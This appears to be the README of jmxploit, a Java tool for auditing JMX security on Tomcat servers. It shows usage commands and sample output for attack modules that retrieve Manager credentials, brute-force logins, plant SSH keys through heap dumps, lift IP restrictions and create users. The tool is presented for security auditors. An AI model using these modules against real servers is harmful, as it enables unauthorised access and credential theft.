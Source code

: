jmxploit
========

Jmxploit is written in Java to audit the security level of the JMX API in Tomcat environment.
This tool is dedicated to security auditors and researchers in order to analyse JMX API security level.

The RMI protocol is used by jmxploit to interact with JMX API.
If no credentials are given in argument one anonymous connection will be attempt.

How to :
=========

Jmxploit offers two method of use.

- The interactive method :

$ java -jar jmxploit.jar  --host SERVER --port PORT --login LOGIN --password PASSWORD

If authentication succeeded, information about Java environment will appear and menu will ask you to choose a module to launch.

test@jmxploit:java -jar jmxploit.jar  --host tomcat --port 8050 --login controlRole --password password
     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

Connexion to JMX service at tomcat:8050


Please find below information about server environment

Hosts available : localhost, 
OS Information : Linux 2.X.XX-X-XXX 
Version : Sun Microsystems Inc. OpenJDK Client VM 20.0-b12 
ClassPath and Arguments : /usr/lib/jvm/java-6-openjdk/jre/lib/resources.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/rt.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/sunrsasign.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/jsse.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/jce.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/charsets.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/netx.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/plugin.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/rhino.jar:/usr/lib/jvm/java-6-openjdk/jre/lib/modules/jdk.boot.jar:/usr/lib/jvm/java-6-openjdk/jre/classes
/home/tomcat/apache-tomcat-7.0.42/bin/bootstrap.jar:/home/tomcat/apache-tomcat-7.0.42/bin/tomcat-juli.jar
-Djava.util.logging.config.file=/home/tomcat/apache-tomcat-7.0.42/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=8050 -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=true -Djava.rmi.server.hostname=192.168.56.101 -Dcom.sun.management.jmxremote.password.file=../conf/jmxremote.password -Dcom.sun.management.jmxremote.access.file=../conf/jmxremote.access -Djava.endorsed.dirs=/home/tomcat/apache-tomcat-7.0.42/endorsed -Dcatalina.base=/home/tomcat/apache-tomcat-7.0.42 -Dcatalina.home=/home/tomcat/apache-tomcat-7.0.42 -Djava.io.tmpdir=/home/tomcat/apache-tomcat-7.0.42/temp 


#####################################################################################
 Manager seems to be available  on following hosts    : localhost, 
#####################################################################################

Please select a module to launch

[0]	MakeDir		This attack will create a directory on the server	
[1]	CreateFile	This attack will put content in log file and move the log file to the desired directory. File will be overwritten be carefull !!!	
[2]	DumpHeap	This attack will use the dumpHeap methods from com.sun.management. The objective is to put a ssh key on the Linux Server	
[3]	AllowAdress	This attack will remove the ip adress limitation on manager	
[4]	CreateRole	This attack will create a role to assign to users(manager, manager-gui,manager-script,manager-jmx)	
[5]	CreateHost	This attack will create a new host on the server you can choose the application root directory... Why not an open share ?	
[6]	DisplayPassword	This attack will retrieve Manager users' credentials if exists	
[7]	RemoveHost	This attack will remove an hostname on the application server	
[8]	Bruteforce	This module will bruteforce logins/passwords	
[9]	AssignRole	This attack will attribute a role to a user	
[10] CreateUser	This attack will create a user to access Tomcat application's	



- The direct attack  method :

In this case jmxploit requires the attack name and required parameters in argument.

To list available attacks please use

$java -jar jmxploit.jar --host SERVER --port PORT --login LOGIN --password PASSWORD --list 
     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

List of availables modules
MakeDir			This attack will create a directory on the server
CreateFile		This attack will put content in log file and move the log file to the desired directory. File will be overwritten be carefull !!!
DumpHeap		This attack will use the dumpHeap methods from com.sun.management. The objective is to put a ssh key on the Linux Server
AllowAdress		This attack will remove the ip adress limitation on manager
CreateRole		This attack will create a role to assign to users(manager, manager-gui,manager-script,manager-jmx)
CreateHost		This attack will create a new host on the server you can choose the application root directory... Why not an open share ?
DisplayPassword		This attack will retrieve Manager users' credentials if exists
RemoveHost		This attack will remove an hostname on the application server
Bruteforce		This module will bruteforce logins/passwords
AssignRole		This attack will attribute a role to a user
CreateUser		This attack will create a user to access Tomcat application's


To launch one of them without interactive menu:

$java -jar jmxploit.jar --host yourserver --port XXXX --login LOGIN --password PASSWORD --attack ModuleName --arg1_to_mod arg1 --arg2_to_mod arg2

For example to create user :

test@jmxploit:java -jar jmxploit.jar  --host tomcat --port 8050 --login controlRole --password password --attack CreateUser --username tomcat_user
     ____.  _____  ____  ___      .__         .__  __   
    |    | /     \ \   \/  /_____ |  |   ____ |__|/  |_ 
    |    |/  \ /  \ \     /\____ \|  |  /  _ \|  \   __\
/\__|    /    Y    \/     \|  |_> >  |_(  <_> )  ||  |  
\________\____|__  /___/\  \   __/|____/\____/|__||__|  
                 \/      \_/__|                         

Connexion to JMX service at tomcat:8050
CreateUser will be launch
#### createUser operation will be invoke ####
#### Operation createUser has been successfully invoked ####


 User should be created
 
 
Contact : jeremy.mousset@bt.com
